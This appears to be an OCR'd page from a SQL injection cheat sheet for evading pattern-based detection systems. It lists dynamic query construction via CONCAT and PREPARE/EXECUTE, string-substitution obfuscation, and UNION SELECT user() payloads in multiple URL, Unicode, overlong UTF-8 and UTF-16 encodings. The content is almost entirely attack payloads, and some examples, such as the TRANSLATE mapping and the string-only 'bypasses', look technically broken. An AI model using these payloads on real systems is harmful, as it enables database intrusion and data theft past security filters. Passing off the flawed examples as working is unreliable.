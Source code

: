 Advanced techniques to bypass intelligent pattern detection systems.

#### Dynamic Query Construction
```sql
-- Variable-based construction
SET @query = CONCAT('SEL','ECT * FROM us','ers');
PREPARE stmt FROM @query;
EXECUTE stmt;

-- Conditional construction
SELECT CASE 
  WHEN 1=1 THEN 'SELECT * FROM users'
  ELSE 'SELECT 1'
END;
```

#### Nested Function Calls
```sql
-- Multiple function layers
SELECT SUBSTRING(REVERSE(REVERSE('SELECT * FROM users')),1,100)

-- Complex mathematical operations
SELECT * FROM users WHERE id=((1*1)+(0*999)+(0/1)+(0%999))
```

#### Template-Based Evasion
```sql
-- Template string construction
SELECT REPLACE('SELxCT * FROM usxrs','x','E')

-- Pattern substitution
SELECT TRANSLATE('ABJJKL * EQGM NAKQA','ABJKLNQKEA','SELECTFROMUS')
```

### URL Encoding Variations

Different URL encoding techniques to bypass detection.

#### Standard URL Encoding
```sql
-- Single encoding
%27 UNION SELECT user()--
%27%20UNION%20SELECT%20user()%2D%2D

-- Double encoding
%2527%2520UNION%2520SELECT%2520user()%252D%252D

-- Triple encoding  
%25252527%25252520UNION%25252520SELECT%25252520user()%2525252D%2525252D
```

#### Unicode URL Encoding
```sql
-- Unicode percent encoding
%u0027%u0020UNION%u0020SELECT%u0020user()%u002D%u002D

-- UTF-8 percent encoding
%C0%A7%C0%A0UNION%C0%A0SELECT%C0%A0user()%C0%AD%C0%AD

-- UTF-16 encoding
%00%27%00%20UNION%00%20SELECT%00%20user()%00-%00-
```
